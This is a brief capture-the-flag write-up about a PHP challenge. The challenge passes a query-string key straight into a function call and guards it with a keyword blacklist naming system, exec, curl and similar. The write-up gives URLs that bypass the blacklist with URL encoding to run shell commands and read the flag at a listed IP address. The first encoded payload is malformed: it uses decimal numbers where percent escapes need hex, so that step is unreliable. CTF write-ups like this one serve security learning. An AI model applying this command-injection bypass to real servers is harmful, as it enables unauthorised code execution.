 A quick poke around the URL revealed a robots.txt file which gave the first clue:

# you know de wae ma queen
User-Agent: *
Disallow: /?debug


Visiting http://35.196.45.11:8080/?debug provided the PHP source code that is driving the page:

```php

$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
    if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
    list($key, $val) = each($_GET);
    $key($val);
}
?>
```

But The admin forgot that we can bypass the filter using url encoding , we can call system("ls"):

**http://35.196.45.11:8080/?%115%121%115%116%101%109=ls**

now print the long file name content :

**http://35.196.45.11:8080/?%73%79%73%74%65%6d=cat%20flag-a-long-name-that-you-wont-know.php**



`AceBear{I_did_something_stupid_with_url}`

